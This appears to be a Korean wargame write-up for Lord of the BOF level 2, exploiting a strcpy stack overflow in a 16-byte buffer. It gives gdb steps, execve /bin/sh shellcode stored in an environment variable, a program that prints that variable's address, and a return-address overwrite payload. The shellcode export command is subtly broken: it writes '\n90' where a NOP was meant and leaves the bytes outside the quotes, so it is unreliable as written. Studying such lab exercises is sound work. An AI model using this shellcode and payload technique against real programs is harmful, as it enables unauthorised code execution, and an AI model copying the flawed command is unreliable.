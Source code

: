# LOB 2번

#### ID : gremlin PW: hello bof world<br>

**먼저 bash2에서 실행해야함을 기억하자** <br>

우선 cobolt.c의 내용을 보자<br>
```cat cobolt.c```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[1])
{
      char buffer[16];
      if (argc < 2){
        printf("argv error\n");
        exit(0);
      }
      strcpy(buffer, argv[1]);
      printf("%s\n", buffer);
}
```
버퍼의 크기가 16으로 작아졌을 뿐 lob 1번 문제와 유사하다.<br>
[LOB 1번 보기](https://github.com/white-bean/security-study/blob/master/lob/lob_1%EB%B2%88.md)

우리의 목적을 생각해보자.<br>
1. buffer 위치 구하기
2. 환경변수 등록 후 주소 얻기
3. ret에 환경변수 주소 덮어씌우기
3. 공격!

**cobolt 코드를 디버깅해야하기 때문에 cobolt1로 복사하자.**<br>

**그리고 디버깅을 해보자**<br>
```gdb -q cobolt1```<br>
```set disassembly-flavor intel```<br>
```disas main```<br>

<main+3>을 보면 16만큼의 자리를 만들고있다.<br>
buffer에서 ebp까지의 거리가 16이라는 것이다.<br>

25byte 쉘코드를 등록해준 후 주소값을 얻는 코드를 통해 주소값을 얻자.<br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>

**이제 페이로드를 작성해보자.**<br>
```../cobolt `python -c 'print "A"*20+"\x82\xfe\xff\xbf"'` ```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
**공격 실시!**<br>
```../cobolt `python -c 'print "A"*20+"\x82\xfe\xff\xbf"'` ```<br>
```my-pass```로 비밀번호를 물어보면<br>
euid와 함께 비밀번호가 "~~". 라고 나올 것이다!!
